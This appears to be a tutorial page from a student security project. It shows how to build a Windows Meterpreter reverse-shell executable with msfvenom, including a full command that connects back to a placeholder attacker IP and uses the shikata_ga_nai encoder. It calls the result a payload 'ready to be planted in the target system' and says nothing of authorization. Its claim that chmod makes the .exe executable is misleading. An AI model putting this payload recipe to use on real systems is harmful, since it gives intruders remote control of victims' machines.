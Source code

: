 # Creating a payload with Msfvenom

**[Home][H]**

**[1 - Using Metasploit][Metasploit]**

**[2 - Creating a Payload][Create]**

**[3 - Using Meterpreter][Meterpreter]**

**[4 - Keylogging][Keylog]**

---
To create a Meterpreter reverse shell, execute the following command

**msfvenom -p windows/meterpreter/reverse_tcp lhost=[attacker ip] lport[attacker port] --platform windows -e x86/shikata_ga_nai -f exe -o [name of payload executable].exe**.

<img src="https://raw.githubusercontent.com/yukun2h4ng/1600final/yukun2h4ng-patch-1/images/msfvenom.png" width="600">

---
While the file has an .exe extension, it is not actually an executable file yet. To do that, we need to make some changes to the file.

Execute the following command

**chmod 755 [name of payload executable].exe**

<img src="https://raw.githubusercontent.com/yukun2h4ng/1600final/yukun2h4ng-patch-1/images/executable.png" width="600">

Now we have a payload ready to be planted in the target system.

---


[H]: https://github.com/yukun2h4ng/1600final/blob/main/README.md
[Metasploit]: https://github.com/yukun2h4ng/1600final/blob/main/tutorial.md
[Create]: https://github.com/yukun2h4ng/1600final/blob/main/createpayload.md
[Meterpreter]: https://github.com/yukun2h4ng/1600final/blob/main/meterpreter.md
[Keylog]: https://github.com/yukun2h4ng/1600final/blob/main/keylogging.md
